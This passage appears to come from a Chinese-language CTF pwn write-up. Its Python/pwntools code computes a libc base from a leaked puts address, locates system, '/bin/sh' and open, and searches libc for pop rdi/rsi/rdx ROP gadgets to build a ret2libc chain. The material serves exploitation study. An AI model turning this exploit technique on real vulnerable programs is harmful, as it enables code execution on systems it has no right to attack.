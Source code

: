 用got记录的地址计算

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
open_addr = libc_base + libc.symbols['open']
print(format(open_addr, 'x'))
```

由于要用到libc里的pop |ret也可以直接计算一下

![](../images/2024-10-24-18-23-39-image.png)

```python
def search_asm_libc(str):
    gadget = asm(str)
    search_addr = 0
    for addr in libc.search(gadget):
        print(hex(addr))
        if addr > 0x100000:
            search_addr = addr
            break
    return search_addr


pop_rdi = libc_base + search_asm_libc(r'pop rdi; ret')
#pop_rsi = libc_base + 0x2be51
print(format(pop_rdi, 'x'))


pop_rsi = libc_base + search_asm_libc(r'pop rsi; ret')
#pop_rsi = libc_base + 0x2bb69
print(format(pop_rsi, 'x'))

pop_rdx = libc_base + search_asm_libc(r'pop rdx; pop rbx; ret')
#pop_rdx = libc_base + 0x904a9
print(format(pop_rdx, 'x'))
```
